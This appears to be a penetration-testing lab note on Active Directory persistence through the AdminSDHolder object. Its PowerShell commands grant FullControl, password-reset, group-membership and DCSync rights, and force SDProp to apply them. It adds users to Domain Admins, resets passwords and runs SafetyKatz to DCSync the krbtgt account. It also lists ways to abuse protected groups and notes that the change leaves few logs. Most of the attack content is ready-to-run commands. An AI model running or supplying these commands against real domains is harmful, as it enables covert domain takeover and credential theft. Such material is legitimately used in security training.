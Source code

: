 **Essentially an ACL baseline that overwrites any changes made to protected groups. This can only be edited with DA (or equivalent) membership**

###### **Adding permissions to `AdminSDHolder` - OPSEC**

Add `FullControl` permissions for a user to the `AdminSDHolder` using PowerView as DA
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student548 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Using `ActiveDirectory` Module and [RACE](https://github.com/samratashok/RACE) toolkit:
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

`ResetPassword` and `WriteMembers` permissions to `AdminSDHolder` and PowerView.
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

--- 
##### **After adding permissions to `AdminSDHolder`, `SDProp` must be ran/updated for the changes to take effect**

Manually run `SDProp` with Invoke-SDPropagator.ps1
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

For pre-Server 2008 machines
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

--- 
##### **Confirm permissions as a standard user**

PoweView
```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student548"}
```

ActiveDirectory Module
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'
```
---
##### Abusing Permissions

Abusing `FullControl` with PowerView and AD module
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

Add-ADGroupMember -Identity 'Domain Admins' -Members
testda
```


Abusing `ResetPassword` with PowerView and AD module
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText - Force) -Verbose
```

---
##### Gaining `DCSync` rights to the domain object

PowerView
```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student548 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

AD Module
```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```

Confirm permissions
```powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student548"}
```
Manually run `SDProp` with Invoke-SDPropagator.ps1
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

Executing DCSync
```powershell
Loader.exe -path SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt"
```


Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups)

Security Descriptor Propagator (`SDPROP`) runs every hour and compares the ACL of protected groups and members with the ACL of `AdminSDHolder` and any differences are overwritten on the object ACL

Protected Groups:

| Account Operators | Enterprise Admins            |
| ----------------- | ---------------------------- |
| Backup Operators  | Domain Controllers           |
| Server Operators  | Read-only Domain Controllers |
| Print Operators   | Schema Admins                |
| Domain Admins     | Administrators               |
| Replicator        |                              |

Well known abuse of some of the Protected Groups - All of the below
can log on locally to DC:

| Group             | Abuse                                                                                |
| ----------------- | ------------------------------------------------------------------------------------ |
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups.          |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators  | Run a command as system (using the disabled Browser service)                         |
| Print Operators   | Copy ntds.dit backup, load device drivers                                            |

With DA privileges (Full Control/Write permissions) on the
`AdminSDHolder` object, it can be used as a backdoor/persistence
mechanism by adding a user with Full Permissions (or other interesting
permissions) to the `AdminSDHolder` object

In 60 minutes (when `SDPROP` runs), the user will be added with Full
Control to the AC of groups like Domain Admins without actually being a
member of it


> [!NOTE] **NOTE**
> Adding a new object to the `AdminSDHolder` won't generate any new logs for `WreiteDACL`. The only way to get insights of abuse is by turning logging on group within the Advanced Security Settings

